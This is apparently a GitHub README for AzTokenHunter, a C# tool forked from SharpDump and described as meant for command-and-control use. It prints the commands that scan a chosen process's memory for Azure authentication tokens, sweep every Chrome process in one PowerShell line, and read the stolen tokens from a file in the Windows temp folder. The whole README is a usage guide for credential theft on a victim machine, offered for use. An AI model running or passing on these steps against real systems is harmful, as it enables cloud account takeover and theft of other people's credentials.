 # AzTokenHunter
Hunts for Azure tokens inside of process memory. Written in C# use usage in C2. A fork of SharpDump.

# Usage
```
AzTokenHunter.exe <PID>
```

# Dumping Tokens From Multiple Processes of the Same Name
```
Get-Process chrome | %{.\AzTokenHunter.exe $_.Id}
```

# Dumping Results
```
type C:\Windows\Temp\token.out
```
